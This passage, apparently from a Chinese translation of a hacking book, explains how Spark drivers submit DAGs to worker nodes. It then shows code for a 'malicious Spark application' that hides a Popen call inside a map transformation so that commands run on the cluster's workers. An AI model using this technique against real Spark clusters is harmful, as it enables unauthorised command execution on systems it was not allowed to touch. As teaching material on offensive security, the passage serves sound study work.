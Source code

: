 Spark 驱动程序，即在执行代码时由 PySpark 初始化的进程，技术上并不将 Python 代码发送到主节点。首先，驱动程序构建一个*有向无环图*（*DAG*），这是对在 RDD 上执行的所有操作的总结，比如加载、`map`、`flatMap`、存储为文件等（见图 12-1）。

![f12001](img/f12001.png)

图 12-1：由两个步骤组成的简单 DAG 示例：parallelize 和 map

驱动程序通过发送一些关键属性来将工作负载注册到主节点：工作负载的名称、请求的内存、初始执行器的数量等等。主节点确认注册并将 Spark 工作节点分配给传入的任务。它将这些工作节点的详细信息（IP 和端口号）共享给驱动程序，但没有进一步的动作。直到这一点为止，实际上并没有执行任何计算。数据仍然保留在驱动程序一侧。

驱动程序继续解析脚本并根据需要将步骤添加到 DAG 中，直到它遇到它认为是*动作*的部分，这是一个强制收缩 DAG 的 Spark API。这个动作可能是显示输出、保存文件、计数元素等调用（你可以在[`bit.ly/3aW64Dh`](http://bit.ly/3aW64Dh)找到 Spark 动作的列表）。只有到这一点，DAG 才会被发送到 Spark 工作节点。这些工作节点跟随 DAG 执行其中的转换和动作。

好的。我们升级了代码，添加了一个动作（在这种情况下，是 `collect` 方法），它会触发应用程序提交到工作节点（见清单 12-7）。

```
from pyspark import SparkContext, SparkConf
--`snip`--
partList = sc.parallelize(range(0, 10))
Popen(["hostname"], stdout=subprocess.PIPE).stdout.read()

for a in finalList.collect():
    print(a)
```

清单 12-7：向恶意的 Spark 应用程序添加动作

但是我们仍然缺少一个关键部分。工作节点只会遵循 DAG，而 DAG 只涉及 RDD 资源。我们需要调用 Python 的 `Popen` 来在工作节点上执行命令，但 `Popen` 既不是像 `map` 这样的 Spark 转换，也不是像 `collect` 这样的动作，因此它将被省略在 DAG 之外。我们需要作弊，并将我们的命令执行包含在 Spark 转换（例如 map）中，如清单 12-8 所示。

```
from pyspark import SparkContext, SparkConf
from subprocess import Popen

conf = SparkConf()
conf = conf.setAppName("Word Count")
conf = conf.setMaster("spark://10.50.12.67:7077")
conf = conf.set("spark.driver.host", "10.33.57.66")

sc = SparkContext(conf = conf)
partList = sc.parallelize(range(0, 1))
finalList = partList.map(
1     lambda x: Popen(["hostname"], stdout=subprocess.PIPE).stdout.read()
)
for a in finalList.collect():
    print(a)
```
